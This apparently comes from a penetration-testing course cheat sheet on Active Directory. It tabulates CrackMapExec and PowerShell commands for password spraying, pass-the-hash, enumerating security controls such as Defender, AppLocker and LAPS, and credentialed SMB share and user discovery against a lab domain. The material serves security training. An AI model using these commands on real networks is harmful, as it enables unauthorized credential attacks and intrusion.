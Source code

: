 |`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +`|Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`.|
|`sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`|Uses `CrackMapExec` to validate a set of credentials from a Linux-based host.|
|`sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +`|Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`.|
|`Import-Module .\DomainPasswordSpray.ps1`|Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host.|
|`Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`|Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host.|

### Enumerating Security Controls

|Command|Description|
|---|---|
|`Get-MpComputerStatus`|PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host.|
|`Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`|PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host.|
|`$ExecutionContext.SessionState.LanguageMode`|PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host.|
|`Find-LAPSDelegatedGroups`|A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host.|
|`Find-AdmPwdExtendedRights`|A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host.|
|`Get-LAPSComputers`|A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host.|

### Credentialed Enumeration

| Command                                                                                          | Description                                                                                                                                                                                                                                                                             |
| ------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25`                             | Connects to a Windows target using valid credentials. Performed from a Linux-based host.                                                                                                                                                                                                |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`                                | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host.                                                                                                   |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`                               | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host.                                                                                                      |
| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users`                     | Authenticates with a Windows target over `smb` using valid credentials and attempts to check for a list of logged on users (`--loggedon-users`) on the target Windows host. Performed from a Linux-based host.                                                                          |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`                               | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover any smb shares (`--shares`). Performed from a Linux-based host.                                                                                                                         |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share`       | Authenticates with a Windows target over `smb` using valid credentials and utilizes the CrackMapExec module (`-M`) `spider_plus` to go through each readable share (`Dev-share`) and list all readable files. The results are outputted in `JSON`. Performed from a Linux-based host.   |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5`                             | Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (`-H`). Performed from a Linux-based host.                                                   |